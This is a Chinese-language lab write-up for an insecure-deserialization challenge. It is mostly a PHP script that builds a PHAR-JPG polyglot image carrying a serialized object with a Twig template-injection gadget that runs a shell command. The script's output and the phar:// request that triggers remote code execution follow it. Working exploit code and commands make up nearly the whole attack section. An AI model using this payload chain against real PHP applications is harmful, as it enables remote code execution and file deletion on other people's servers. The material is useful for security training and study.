

Insecure deserialization Expert Lab

請分析 /cgi-bin/ 內的代碼 CustomTemplate.php、Blog.php、avatar.php

來源:
[Phar JPG Polyglot](https://github.com/kunte0/phar-jpg-polyglot)

```
📁 /phar-jpg-polyglot
└── 📄 LICENSE
└── 📄 README.md
└── 📄 in.jpg
└── 📄 out.jpg
└── 📄 phar_jpg_polyglot.php
└── 📄 php.ini
└── 📄 test_phar_inject.php
```

#### phar_jpg_polyglot.php
```
<?php
// Fix PHP 8.2 warnings by explicitly defining class properties
class Blog {
    public string $user;
    public string $desc;

    public function __construct(string $user, string $desc) {
        $this->user = $user;
        $this->desc = $desc;
    }
}

class CustomTemplate {
    public Blog $template_file_path;

    public function __construct(Blog $blog) {
        $this->template_file_path = $blog;
    }
}

// Generate base PHAR file
function generate_base_phar($obj, $prefix) {
    global $tempname;
    @unlink($tempname);
    
    $phar = new Phar($tempname);
    $phar->startBuffering();
    $phar->addFromString("test.txt", "test");
    $phar->setStub("$prefix<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($obj);
    $phar->stopBuffering();

    $basecontent = file_get_contents($tempname);
    @unlink($tempname);
    return $basecontent;
}

// Generate PHAR-JPG polyglot payload
function generate_polyglot($phar, $jpeg) {
    $phar = substr($phar, 6); // Remove `<?php`
    $len = strlen($phar) + 2;
    $new = substr($jpeg, 0, 2) . "\xff\xfe" . chr(($len >> 8) & 0xff) . chr($len & 0xff) . $phar . substr($jpeg, 2);

    // Calculate tar checksum
    $contents = substr($new, 0, 148) . "        " . substr($new, 156);
    $chksum = 0;
    for ($i = 0; $i < 512; $i++) {
        $chksum += ord(substr($contents, $i, 1));
    }

    // Embed checksum
    $oct = sprintf("%07o", $chksum);
    $contents = substr($contents, 0, 148) . $oct . substr($contents, 155);
    return $contents;
}

// Create serialization exploit object
$blog = new Blog(
    'any_user_you_want',
    '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}'
);
$object = new CustomTemplate($blog);

// Configure JPG payload
$tempname = 'temp.tar.phar';
$jpeg = file_get_contents('in.jpg');
$outfile = 'out.jpg';
$prefix = '';

// Output serialized data (for manual testing)
echo "Serialized Data:\n";
var_dump(serialize($object));

// Generate Polyglot payload and save it as `out.jpg`
file_put_contents($outfile, generate_polyglot(generate_base_phar($object, $prefix), $jpeg));

echo "\n Payload Successfully Generated: {$outfile}\n";

/*
 Alternative: Generate GIF payload (if the target allows GIF uploads)
$prefix = "\x47\x49\x46\x38\x39\x61" . "\x2c\x01\x2c\x01"; // GIF header
$tempname = 'temp.phar';
$outfile = 'out.gif';
file_put_contents($outfile, generate_base_phar($object, $prefix));
*/
?>
```

##### 編輯 phar_jpg_polyglot.php 文件並運行它, 以創建包含 PHAR 的文件
```
$ php -c php.ini phar_jpg_polyglot.php 
Serialized Data:
string(229) "O:14:"CustomTemplate":1:{s:18:"template_file_path";O:4:"Blog":2:{s:4:"user";s:17:"any_user_you_want";s:4:"desc";s:106:"{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}";}}"

 Payload Successfully Generated: out.jpg
```

##### 發送一個 GET 請求 /cgi-bin/avatar.php , 帶有參數 avatar 和值 phar://wiener , 從而觸發遠端程式碼執行有效負載
```
GET /cgi-bin/avatar.php?avatar=phar://wiener HTTP/2
```
